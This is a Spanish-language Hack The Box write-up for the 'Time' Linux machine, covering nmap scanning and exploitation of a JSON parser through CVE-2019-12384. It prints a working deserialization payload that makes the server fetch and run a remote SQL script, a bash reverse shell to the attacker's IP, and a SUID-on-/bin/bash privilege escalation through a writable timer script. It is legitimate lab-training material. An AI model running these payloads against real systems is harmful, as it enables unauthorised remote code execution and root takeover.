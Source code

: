 ```yaml
---
title: "Time - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/time/data/time.png?raw=true"
  teaser_home_page: true
  icon: "https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/icons/Hackthebox2.png?raw=true"
categories:
  - Writeup
  - HackTheBox
tags:
  - Bash
  - RCE (Remote Code Execution)
  - Json
  - Linux
---
```



<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/time/data/TimeHTB.png">
</p>

La máquina **Time** es una máquina virtual vulnerable de la plataforma HackTheBox con un nivel de dificultad **medio** una calificación en el rank de 3.5, **5710 USER OWNS** y **5369 SYSTEM OWNS** con la ip **10.10.10.214** y un sistema operativo **Linux**.


## Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.10.214]** utilizando los parámetros:
  - **-p-:**    Escaneo a toda la gama de puertos (65536).
  - **-n:**     No hacen la resolución del DNS.
  - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
  - **-v:**     Aumenta el nivel de los mensajes verbose.
  - **--open:** Muestra sólo los puertos con un estatus abierto.
  - **-oG:**    Guarda la el output en formato Grepeable.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/time/scan/scanPort.png">
</p>


Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **22,80**:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/time/scan/Ports.png">
</p>


Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - -sC: Script de enumeración básica de sondeo en puertos y servicios alojados.
  - -sV: Detección de versiones en servicios alojados en puertos.
  - -p : Puertos a inspeccionar.
  - -oN: Formatos de Nmap en los que se guardará el archivo.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/time/scan/PortServ.png">
</p>


Lo que nmap nos ha mostrado sobre los servicios es que tiene un servicio ssh y una página **http** que está soportada por apache 2.4.41 que tiene un **Online Json parser** corriendo. Aparte de estos datos no vemos nada fuera de lo normal o que indique un foco a seguir que no sea la página con el Json.

Si entramos en la página web desde el navegador podemos ver la aplicación **Json** que está montada en la web:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/time/scan/pageWeb.png">
</p>

Una vez que hemos identificado una posible ruta para nuestra auditoría, empezamos a jugar con la aplicación y vemos que tiene dos opciones **'beautify'** y **'validate (beta)'** si introducimos datos en la segunda podemos ver que nos muestra el siguiente error:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/time/scan/errorPage.png">
</p>


Investigando el error y si tiene alguna forma de abusar de él ya sea para hacer algún tipo de **RCE** u otro potencial camino a seguir y haciendo una buena búsqueda en internet sobre este error encontré un documento en **[github](https://github.com/jas502n/CVE-2019-12384)** que habla de cómo hacer una ejecución de comandos en el  aplicativo aprovechando una vulnerabilidad existente en la misma. Siguiendo los pasos mencionados en la página que los cuales eran crear un archivo **inject.sql** que debe tener el siguiente contenido:

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.15.125/443 0>&1')
```

Una vez creado el archivo me puse en escucha por el puerto **443** y levanté un servidor HTTP en el puerto 8000 una vez hecho esto envié la siguiente consulta a través de la aplicación web:

```json
["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.15.125:8000/inject.sql'"}]
```
La consulta anterior lo que hace es decirle al aplicativo que ejecute el script de la url **http://10.10.15.125:8000/inject.sql** la cual es mi servicio http que levante en mi maquina y el cual tiene el script en sql el cual ejecuta una revershell a mi maquina por el puerto 443.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/time/intrusion/payload.png">
</p>

La respuesta que me dio fue un get al archivo **Inject.sql** en el lado del servidor que inicié y desde el puerto que abrí interpretó el comando dándome un shell:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/time/intrusion/acces.png">
</p>

## Lateral Movement

Haciendo un pequeño reconocimiento en el sistema podemos ver que hay una tarea cron que se ejecutan a intervalos de tiempo regulares en este caso cada **7 segundos** el cual es **'timer\_backup.timer'**:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/time/intrusion/cron.png">
</p>

Una vez que sabemos que existe un CronJob procedemos a buscar el archivo para ver si es una ruta a seguir para conseguir la escalada de privilegios, utilizando el comando ```$ systemctl list-timers ``` podemos encontrar la ubicación de este archivo y concatenando un ls -la podemos ver que el archivo nos pertenece por lo que podemos editarlo sin problemas

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/time/intrusion/cronjob.png">
</p>

## Privilege escalation

Para la escalada de privilegios lo que hice fue ir al archivo y dentro del archivo modifiqué el contenido que tenía por el siguiente:

```bash

#!/bin/bash
chmod 4755 /bin/bash

```

Una vez que modificamos el archivo **timer\_backup** esperamos a que la tarea cron se ejecute y root asigne el permiso **SUID** a la ruta **/bin/bash** lo cual nos permitirá utilizar el parámetro ``` bash -p ``` que nos dará una shell como root ya que estamos ejecutando temporalmente el binario como el propietario del mismo y asi teniendo acceso completo a la máquina y completado el rooteo de la misma.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/time/intrusion/root.png">
</p>

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/time/intrusion/root2.png">
</p>
